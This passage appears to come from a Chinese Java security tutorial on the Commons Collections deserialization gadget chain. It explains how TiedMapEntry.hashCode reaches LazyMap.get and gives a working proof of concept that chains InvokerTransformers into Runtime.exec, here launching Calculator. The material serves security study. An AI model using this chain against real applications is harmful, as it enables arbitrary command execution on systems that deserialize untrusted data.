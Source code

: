 ```java
     * 直接从map中获取此条目的值。
     */
    public Object getValue() {
        return map.get(key);
    }

    // ... 省略部分无关代码 ...

    /**
     * 获取与equals方法兼容的hashCode
     */
    public int hashCode() {
        Object value = getValue();
        return (getKey() == null ? 0 : getKey().hashCode()) ^
               (value == null ? 0 : value.hashCode());
    }
}
```

`TiedMapEntry`类中的`hashCode`方法将条目的键和值的哈希码进行异或运算，以计算条目的哈希码。在`hashCode`方法中有对`getValue`方法进行调用，而`getValue`中又存在`map.get`调用，这样便能够触发`LayzMap#get`。

```java
package com.javasec.cc;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.util.HashMap;
import java.util.Map;

public class TiedMapEntryTest {
    public static void main(String[] args) {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"open -a Calculator"})
        };
        Transformer tcChain = new ChainedTransformer(transformers);

        Map lazyMap = LazyMap.decorate(new HashMap(), tcChain);

        TiedMapEntry tme = new TiedMapEntry(lazyMap, "k");

        tme.hashCode();
    }
}
```
